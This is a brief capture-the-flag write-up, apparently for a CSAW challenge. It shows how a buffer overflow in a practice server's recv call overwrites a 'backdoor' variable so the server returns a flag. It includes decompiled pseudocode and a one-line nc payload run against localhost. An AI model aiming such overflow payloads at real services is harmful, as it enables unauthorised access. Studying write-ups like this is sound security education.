 #exploit 1

Let's take a look at the binary:

```
$	file exploit1 
exploit1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=c7646dc29ce50cfdf6d7acaf5e8ebfc88401b7e1, not stripped
```

So we can see it is a 32 bit elf. When we pop it into ida and look at the main function, we can see that the elf is a server that listens on port `31337`

```
  if ( getaddrinfo("0.0.0.0", "31337", (const struct addrinfo *)&v12, &v11) )
```
 
 So the function that runs when a new connection is established is `handle`, so let's take a look at that function's psuedocode.
 

```
void __cdecl handle(int newsock)
{
  char buffer[1016]; // [sp+14h] [bp-404h]@1
  int backdoor; // [sp+40Ch] [bp-Ch]@1

  backdoor = 0;
  memset(buffer, 0, sizeof(buffer));
  send(newsock, "Welcome to CSAW CTF.", 0x15u, 0);
  recv(newsock, buffer, 0x3FCu, 0);
  buffer[1015] = 0;
  if ( backdoor )
  {
    fd = (int)fopen("./key", "r");
    __isoc99_fscanf(fd, "%s\n", buffer);
    send(newsock, buffer, 0x200u, 0);
  }
  close(newsock);
}
```

So looking at this we can see that in order to pass the challenge, we need to set the integer `backdoor` equal to anything other than `0`. We can do this using this buffer overflow vulneabillity:

```
  recv(newsock, buffer, 0x3FCu, 0);
```

This line of code will read a maximum of `0x3fc` (1020 in decimal) into the buffer `buffer`, which can only hold 1016 bytes. So we can just write 1020 bytes to that buffer, which will be more than enough to overwrite the value of `backdoor`. To get this to work locally, I had to generay a text file `key` with the flag in it since that is what it reads from:

terminal 1:
```
$	ls
exploit1  key
$	./exploit1
```

terminal 2:
```
python -c 'print "0"*1020' | nc 127.0.0.1 31337
Welcome to CSAW CTF.flag{7c1fbb502632bffa6e62ba6fa847681f}00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```

Just like that, we got the flag.

